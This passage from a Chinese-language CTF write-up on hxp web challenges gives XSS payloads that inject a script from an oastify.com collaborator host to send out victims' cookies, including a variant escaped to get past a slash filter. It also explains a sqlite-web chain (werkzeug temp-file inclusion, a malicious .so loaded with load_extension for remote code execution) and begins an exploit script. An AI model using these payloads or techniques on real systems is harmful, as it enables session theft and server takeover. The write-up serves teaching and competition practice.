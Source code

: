 ```html
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://b2eiq6hi7jbhisck3pg095jv6mcc01.oastify.com/?cookie='+btoa(document.cookie);>
```

但是上面这种payload也是不能直接用的，因为`DefaultFileUploadService.java#hasValidChars`会检测`/`，我们要手动转义

```html
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http:&#47;&#47;929gq4hg7hbfiqci3ngy93jt6kcp0e.oastify.com&#47;?cookie='+btoa(document.cookie);>
```

![image-20230313023852710](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313023852710.png)

之后任意文件读，读到flag

`hxp{xSS_h3re_Xs5_ther3_X5S_ev3rywhere}`

## web/sqlite_web

> We hacked your database, locked you out of your server and encrypted all your tables. If you want them back, send us ONE MILLION DOLLARS and we will send you the password (flag) which is safely stored on the server.

提示中说的"encrypt you all tables"指的是

![image-20230313101310325](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313101310325.png)

![image-20230313103517308](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313103517308.png)

数据库中的flag被用这样的方式加密了，我们想得到flag只能读/flag.txt 但由于权限的设置只能运行/readflag，那就需要rce了

一般的sqlite是没有web ui的，这里用了https://github.com/coleifer/sqlite-web，可能就是突破点 ~~（但我这个脑子也就只够想到这里~~

这个sqlite-web项目本质是跑在flask 也就是werkzeug上的，这里用了跟21年hxp类似的临时文件lfi手法；werkzeug在存在这样的[代码](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/formparser.py#L56)

![image-20230313104035742](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313104035742.png)

`SpooledTemporaryFile`和`TemporaryFile`都是带有自动清理功能的接口，文档中这样描述

![image-20230313105243489](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313105243489.png)

![image-20230313105415243](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313105415243.png)

我们有了在服务器上写入任意文件的能力，接下来的问题就是写什么、如何找到缓存文件的位置、如何rce来得到flag

由于环境在sqlite中，我们可以通过`load_extension`来加载.so文件，我们可以生成一个大于500kb的含有恶意代码的.so并在query中对它进行触发，flag以外带的方式得到

*鸡贼的出题人把sqlite-web自带的import从页面上删掉了，不过路由中仍然存在

![image-20230313110253988](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230313110253988.png)

官方exp.py

```python
#!/usr/bin/env python3

from threading import Thread
import requests
import subprocess
from http.server import HTTPServer, BaseHTTPRequestHandler
from socketserver import ThreadingMixIn
import sys

EXPLOIT = 'rce.csv'

HOST = 'TODO'
PORT = 0
MY_HOST = 'TODO'
```